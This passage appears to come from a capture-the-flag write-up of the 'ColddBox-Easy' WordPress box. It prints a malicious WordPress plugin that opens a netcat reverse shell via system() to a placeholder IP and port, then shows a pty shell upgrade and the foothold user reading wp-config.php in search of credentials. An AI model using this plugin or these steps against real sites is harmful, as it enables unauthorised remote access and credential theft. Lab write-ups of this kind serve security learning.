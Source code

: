<br>
Not telling how to do plugin upload and activation on the WP. I've used following code for plugin.
{% highlight php %}
<?php
/**
 * Plugin Name:       My Evil Plugin
 * Plugin URI:        https://example.com/plugins/the-basics/
 * Description:       Handle the basics with this plugin.
 * Version:           1.10.3
 * Requires at least: 5.2
 * Requires PHP:      7.2
 * Author:            John Smith
 * Author URI:        https://author.example.com/
 * License:           GPL v2 or later
 * License URI:       https://www.gnu.org/licenses/gpl-2.0.html
 * Text Domain:       my-basics-plugin
 * Domain Path:       /languages
 */

set_time_limit(0);
$VERSION = "1.0";
$chunk_size = 1400;
// Check this out later
$write_a = null;
$error_a = null;

$shell = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f";

$daemon = 0;
$debug = 0;
system($shell);

{% endhighlight %}
<br>

### Shell upgrade 
--- 
<br>
{% highlight bash %}
$ python -c 'import pty; pty.spawn("/bin/bash")'
{% endhighlight %}
Then `Ctrl+Z` and `stty raw -echo` following by `fg` and two times `Enter` hit. As for me `TAB` autocomplete is more than enough.

<br>

### Looking around to find priv esc vector
***

{% highlight bash startinline=true %}
www-data@ColddBox-Easy:/var/www/html/wp-admin$ cat ../wp-config.php
cat ../wp-config.php
<?php
/**
 * The base configurations of the WordPress.
 *
 * This file has the following configurations: MySQL settings, Table Prefix,
 * Secret Keys, and ABSPATH. You can find more information by visiting
 * {@link http://codex.wordpress.org/Editing_wp-config.php Editing wp-config.php}
 * Codex page. You can get the MySQL settings from your web host.
 *
 * This file is used by the wp-config.php creation script during the
 * installation. You don't have to use the web site, you can just copy this file
 * to "wp-config.php" and fill in the values.
 *